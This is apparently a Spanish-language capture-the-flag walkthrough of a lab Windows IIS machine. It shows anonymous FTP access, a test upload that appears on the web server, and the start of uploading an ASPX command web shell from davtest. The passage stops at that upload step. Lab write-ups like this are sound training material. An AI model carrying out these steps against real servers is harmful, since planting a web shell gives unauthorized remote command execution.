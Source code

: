 en el escaneo por nmap vemos que el usuario anonimo 'ftp-anon' está habilitado en la máquina, por tanto ingresamos al servidor por ftp

```console
ftp 10.10.10.5
```

```
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:mzapata): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> 
```

vemos algunos archivos que que se pueden ver desde el servidor web

```console
ftp> dir
```

```
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

![web-serber](Images/imagen01.png)

Revisamos si podemos subir archivos y leerlos en la maquina victima

```console
echo "Maquina Pwned" > prueba.txt
```

```console
ftp> put prueba.txt
```
```
local: prueba.txt remote: prueba.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
15 bytes sent in 0.00 secs (325.5208 kB/s)
```

![subida-archivos](Images/imagen02.png)

Probamos subir el archivo */usr/share/davtest/backdoors/aspx_cmd.aspx*

```console
ftp> put aspx_cmd.aspx
```
